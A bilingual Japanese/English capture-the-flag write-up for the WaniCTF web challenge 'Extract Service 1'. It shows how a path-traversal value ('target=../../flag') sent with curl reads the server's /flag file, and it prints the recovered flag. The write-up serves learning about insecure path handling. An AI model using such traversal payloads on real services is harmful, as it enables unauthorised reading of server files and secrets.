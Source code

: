 # Extract Service 1:Web:144pts
ドキュメントファイルの要約サービスをリリースしました！配布ファイルの`sample`フォルダにお試し用のドキュメントファイルがあるのでぜひ使ってください。  
サーバーの`/flag`ファイルには秘密の情報が書いてあるけど大丈夫だよね...? どんなHTTPリクエストが送信されるのか見てみよう！  
We have released a summary service for document files! Please feel free to use the sample document file in the "sample" folder of the distribution file for trial purposes.  
The secret information is written in the `/flag` file on the server, but it should be safe, right...? Let's see what kind of HTTP request is sent!  
[https://extract1-web.wanictf.org](https://extract1-web.wanictf.org/)  

[web-extract1.zip](web-extract1.zip)  

# Solution
URLにアクセスすると、docxファイルなどの要約を行ってくれるサービスのようだ。  
![site.png](site/site.png)  
Choose file typeを`.docx`にしたまま、sample.pptxを送信すると以下のエラーがでる。  
```
Error : open /tmp/af0070a1-0563-425e-86ae-afceb60ba381/word/document.xml: no such file or directory
```
POSTリクエストを見ると、ファイルとは別に`target`として`word/document.xml`が送信されている。  
`word/document.xml`はdocxファイルの内容が書かれているファイルであるので、どこかでdocxを展開して読み取っていると予想する。  
エラーより展開後のパスはただの文字列連結が行われていそうなので、トラバーサルして`/flag`を読みだせばよい。  

```bash
$ ls
sample.docx  sample.pptx  sample.xlsx
$ curl -X POST https://extract1-web.wanictf.org/ -F file=@sample.docx -F 'target=../../flag'
<!DOCTYPE html>
~~~
  <section class="container px-5">
    <div class="mt-5">
      <p>FLAG{ex7r4c7_1s_br0k3n_by_b4d_p4r4m3t3rs}</p>
    </div>
  </section>
~~~
</html>
```
flagが読み取れた。  

## FLAG{ex7r4c7_1s_br0k3n_by_b4d_p4r4m3t3rs}